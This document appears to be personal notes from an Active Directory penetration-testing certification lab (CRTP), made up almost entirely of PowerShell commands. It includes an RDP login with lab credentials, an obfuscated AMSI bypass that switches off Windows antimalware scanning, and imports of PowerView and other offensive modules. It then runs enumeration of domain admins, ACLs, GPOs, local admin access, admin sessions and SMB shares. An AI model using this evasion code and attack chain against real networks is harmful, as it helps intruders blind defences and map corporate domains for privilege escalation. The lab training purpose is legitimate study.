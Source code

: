 ```powershell
xfreerdp3 /u:student548 /p:cAyF6wTLSydnL2M7 /v:172.16.100.48 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/lab
```

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

Basic enumeration
```powershell
Get-DomainUser | select cn

Get-DomainComputer | select dnshostname

Get-DomainGroupMember -Identity "Domain Admins" -recurse | select membername
Get-DomainGroupMember -Identity "Enterprise Admins" -recurse -domain moneycorp.local | select membername
```

ACLs - Perform on current user + groups user is in
```powershell
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student548"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDP Users"}

Get-DomainObjectAcl -SearchBase "LDAP://CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

OUs and GPOs
```powershell
Get-DomainOU -properties name
(Get-DomainOU -identity Applocked).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

Get-DomainGPO | select displayname
Get-DomainGPO -ComputerIdentity dcorp-std548
```

Local Admin access?
```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt

Invoke-ShareFinder -Verbose
```

**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**